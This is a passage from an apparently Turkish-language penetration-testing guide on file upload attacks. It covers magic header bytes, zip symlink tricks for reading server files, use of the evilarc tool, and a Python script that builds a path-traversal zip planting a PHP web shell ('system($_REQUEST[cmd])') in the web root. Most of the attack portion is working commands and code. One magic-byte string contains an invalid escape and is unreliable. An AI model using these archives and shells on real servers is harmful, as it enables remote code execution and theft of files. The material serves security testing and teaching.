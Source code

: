 #### Burp Eklentisi

{{#ref}}
https://github.com/portswigger/upload-scanner
{{#endref}}

## Sihirli Başlık Baytları

- **PNG**: `"\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["`
- **JPG**: `"\xff\xd8\xff"`

Diğer dosya türleri için [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) adresine bakın.

## Zip/Tar Dosyası Otomatik Olarak Açılan Yükleme

Eğer sunucu içinde açılacak bir ZIP yükleyebilirseniz, 2 şey yapabilirsiniz:

### Symlink

Diğer dosyalara soft linkler içeren bir bağlantı yükleyin, ardından açılan dosyalara erişerek bağlı dosyalara erişeceksiniz:
```
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```
### Farklı klasörlerde aç

Açma işlemi sırasında dizinlerde beklenmedik dosya oluşturulması önemli bir sorundur. Bu yapılandırmanın, kötü niyetli dosya yüklemeleri yoluyla OS düzeyinde komut yürütmeye karşı koruma sağlayacağına dair ilk varsayımlara rağmen, ZIP arşiv formatının hiyerarşik sıkıştırma desteği ve dizin geçiş yetenekleri istismar edilebilir. Bu, saldırganların kısıtlamaları aşmasına ve hedef uygulamanın açma işlevselliğini manipüle ederek güvenli yükleme dizinlerinden çıkmasına olanak tanır.

Bu tür dosyaları oluşturmak için otomatik bir istismar [**evilarc on GitHub**](https://github.com/ptoomey3/evilarc) adresinde mevcuttur. Araç aşağıdaki gibi kullanılabilir:
```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
Ayrıca, **evilarc ile symlink hilesi** bir seçenektir. Amaç `/flag.txt` gibi bir dosyayı hedef almaksa, sisteminizde o dosyaya bir symlink oluşturulmalıdır. Bu, evilarc'ın çalışması sırasında hata ile karşılaşmamasını sağlar.

Aşağıda, kötü niyetli bir zip dosyası oluşturmak için kullanılan bir Python kodu örneği bulunmaktadır:
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

```